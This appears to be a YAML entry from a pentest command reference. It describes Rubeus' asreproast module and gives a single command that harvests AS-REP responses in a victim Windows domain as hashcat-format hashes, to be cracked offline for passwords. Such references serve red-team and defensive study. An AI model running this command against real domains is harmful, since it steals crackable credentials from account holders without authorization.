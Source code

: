 ```yaml
---
description: |
  Rubeus' `asreproast` module will attempt to harvest the non-preauth AS_REP responses for a given list of usernames. These responses will be encrypted with the user's password, which can then be cracked offline. The following command is run on a Windows machine in the victim domain.

  Command Reference:

  	Output File: hashes.txt

command: |
  Rubeus.exe asreproast /format:hashcat /outfile:hashes.txt
items:
  - Username
  - Password
services:
  - Kerberos
OS:
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/GhostPack/Rubeus
  - https://github.com/GhostPack/Rubeus#asreproast
---
```

